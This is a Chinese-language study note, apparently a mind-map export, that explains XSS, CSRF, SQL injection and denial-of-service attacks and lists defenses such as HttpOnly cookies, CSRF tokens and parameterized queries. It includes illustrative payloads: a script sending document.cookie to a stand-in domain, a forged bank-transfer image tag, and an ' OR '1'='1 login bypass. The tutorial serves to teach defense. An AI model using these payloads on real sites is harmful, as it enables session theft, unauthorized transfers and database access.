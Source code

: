 # 攻击技术

![README.png](README.png)

关注下方微信公众号，回复【思维导图】即可获得高清原图：

![公众号二维码](../公众号二维码.png)

## 一、跨站脚本攻击

### 概念

- 跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

### 攻击原理

- 例如有一个论坛网站，攻击者可以在上面发布以下内容：
<script>location.href="//domain.com/?c=" + document.cookie</script>
另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

### 危害

- 1.窃取用户的 Cookie
2.伪造虚假的输入表单骗取个人信息
3.显示伪造的文章或者图片

### 防范手段

- 1. 设置 Cookie 为 HttpOnly

	- 设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

- 2. 过滤特殊字符

	- 例如将 < 转义为 &lt;，将 > 转义为 &gt;，从而避免 HTML 和 Jascript 代码的运行。

## 二、跨站请求伪造

### 概念

- 跨站请求伪造（Cross-site request forgery，CSRF），是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。
XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对用户浏览器的信任。

### 攻击原理

- 假如一家银行用以执行转账操作的 URL 地址如下：
http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName
那么，一个恶意攻击者可以在另一个网站上放置如下代码：
<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
如果有账户名为 Alice 的用户访问了恶意站点，而她之前刚访问过银行不久，登录信息尚未过期，那么她就会损失 1000 美元。

### 防范手段

- 1. 检查 Referer 首部字段

	- Referer 首部字段位于 HTTP 报文中，用于标识请求来源的地址。检查这个首部字段并要求请求来源的地址在同一个域名下，可以极大的防止 CSRF 攻击。
无法保证浏览器没有安全漏洞影响到此字段。

- 2. 添加校验 Token

	- 在访问敏感数据请求时，要求用户浏览器提供不保存在 Cookie 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。

- 3. 输入验证码

	- 因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户输入验证码可以让用户知道自己正在做的操作。

## 三、SQL 注入攻击

### 概念

- 服务器上的数据库运行非法的 SQL 语句，主要通过拼接来完成。

### 攻击原理

- 例如一个网站登录验证的 SQL 查询代码为：
strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"

如果填入以下内容：
userName = "1' OR '1'='1";
passWord = "1' OR '1'='1";

那么 SQL 查询字符串为：
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"

此时无需验证通过就能执行以下查询：
strSQL = "SELECT * FROM users;"

### 防范手段

- 1. 使用参数化查询

	- Java 中的 PreparedStatement 是预先编译的 SQL 语句，可以传入适当参数并且多次执行。由于没有拼接的过程，因此可以防止 SQL 注入的发生。

- 2. 单引号转换

	- 将传入的参数中的单引号转换为连续两个单引号，PHP 中的 Magic quote 可以完成这个功能。

## 四、拒绝服务攻击

### 拒绝服务攻击（denial-of-service attack，DoS），亦称洪水攻击，其目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问。

分布式拒绝服务攻击（distributed denial-of-service attack，DDoS），指攻击者使用两个或以上被攻陷的电脑作为“僵尸”向特定的目标发动“拒绝服务”式攻击。

*XMind: ZEN - Trial Version*
